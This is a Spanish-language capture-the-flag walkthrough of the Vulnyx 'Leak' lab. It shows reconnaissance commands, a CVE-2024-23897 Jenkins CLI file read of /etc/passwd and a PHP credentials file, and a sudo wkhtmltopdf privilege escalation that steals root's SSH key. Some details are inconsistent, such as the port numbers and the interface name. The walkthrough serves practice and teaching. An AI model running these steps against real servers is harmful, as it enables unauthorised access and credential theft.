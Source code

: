 ## Vulnyx Leak

### Escaneo de red:

```bash
arp-scan -I eth0 --localnet 
```
```
•(IP-Victima)
```

```bash
nmap -p 80,8080 -sS -sC -sV  -n -Pn (IP-Victima) -oN nmap 
```
```
•80/tcp   open  http    Apache httpd 2.4.56 ((Debian))
•8080/tcp open  http    Jetty 10.0.13
| http-robots.txt: 1 disallowed entry 
```

Puerto 8008 contiene un jenkins

### Fuzzing:

```bash
wfuzz --hc=404 -u http://(IP-Victima):8080/FUZZ -w /usr/share/dirb/wordlists/big.txt
```
```
•about
```

Tenemos un login en `http://(IP-Victima):8080/loginError`

### Identificación del sistema:

```bash
whatweb http://(IP-Victima):8080  
```
```
•Jenkins[2.401.2] 
•Jetty[10.0.13]
```

### Descubrimiento de directorios:

```bash
gobuster dir -u http://(IP-Victima) -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt -x .php 
```
```
•/connect.php
```

### Explotación:

Buscamos exploits/CVE relacionados a Jenkins 2.401.2 y encontramos el CVE-2024-23897

Descargamos el archivo necesario:
```bash
wget http://(IP-Victima):8080/jnlpJars/jenkins-cli.jar
```

Para leer archivos internos:

```bash
java -jar jenkins-cli.jar -s http://(IP-Victima):8080/ -http connect-node "@/etc/passwd"
```

Luego, leemos el archivo `connect.php`:
```bash
java -jar jenkins-cli.jar -s http://(IP-Victima):8080/ -http connect-node "@/var/www/html/connect.php"
```

El código PHP obtenido valida un usuario y contraseña:
```php
$username = "george";
$password = "g***********D";
```

### Acceso a SSH:

```bash
nmap -6 fe80(IPv6-Victima)%etch0
```
```
•22/tcp   open  tcpwrapped
|_ssh-hostkey
```

Accedemos:
```bash
ssh -6 george@fe80:(IPv6-Victima)%eth0
Pass: g*********D
```

### Escalada de privilegios:

```bash
sudo -l
```
```
•/usr/bin/wkhtmltopdf
```

Podemos ejecutar como root un script que convierte html a pdf.

### Lectura de archivos sensibles:

```bash
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy64
chmod +x pspy64
./pspy64
```

Encontramos:
```bash
•/bin/sh -c /usr/bin/file /root/private.txt
```

Intentamos leer el archivo:
```bash
sudo -u root /usr/bin/wkhtmltopdf /root/private.txt private.pdf
```

### Visualización de archivo sensible:

Montamos un servidor Python para visualizar el contenido:
```bash
python3 -m http.server 5000
```
Accedemos vía navegador a:
```
http://(IP-Victima):5000
```

Copiamos y guardamos el archivo `id_rsa`.

```bash
chmod 600 id_rsa
ssh -6 -i id_rsa root@fe80:(IPv6-Victima)%eth0
```

¡Ahora estamos dentro como root! :D
```
